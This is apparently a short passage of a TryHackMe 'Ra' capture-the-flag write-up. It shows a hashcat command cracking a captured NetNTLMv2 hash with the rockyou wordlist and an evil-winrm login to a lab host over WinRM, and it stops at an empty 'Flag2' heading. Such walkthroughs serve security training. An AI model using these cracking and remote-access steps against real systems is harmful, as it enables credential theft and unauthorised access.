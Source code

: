 ### BruteForse hash NTLM

![Ra](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Ra/screenshots/20250506192456.png)

```
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt 
```
![Ra](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Ra/screenshots/20250506192754.png)
## WINRM

> [!NOTE]
> 5985/tcp open http syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

![Ra](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Ra/screenshots/20250506195212.png)

```
evil-winrm --user "buse" --password "" -i 10.10.21.51
```
## Flag2